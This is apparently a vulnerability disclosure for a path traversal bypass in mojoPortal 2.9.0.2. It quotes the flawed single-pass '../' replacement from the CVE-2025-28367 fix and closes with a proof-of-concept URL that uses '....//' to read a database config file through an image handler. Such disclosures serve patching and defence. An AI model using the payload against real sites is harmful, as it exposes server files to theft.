

# Path Traversal in MojoPortal version 2.9.0.2
## Vulnerability Description
The patch for CVE-2025-28367 in mojoPortal CMS contains a flaw. Attackers can bypass it using certain techniques, potentially triggering a path traversal vulnerability that leads to arbitrary file reading. 

## Root Cause
CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')

## Vulnerability Code Analysis

The main fix logic for CVE-2025-28367 in mojoPortal CMS is as follows: 
```csharp
// https://github.com/i7MEDIA/mojoportal/blob/3db7d52ae5f56aa7843edf0dde3bc6898398399d/Web/Components/LinkBuilder.cs#L324
		path = path
			.Replace("../", string.Empty)
			.Replace("..\\", string.Empty);
``` 

However, attackers can bypass this protection by doubling the "../" sequence like "....//".

## Proof of Concept

Below is a simple PoC:
http://127.0.0.1/api/BetterImageGallery/imagehandler?path=....//....//sqlitedb/initdb.config




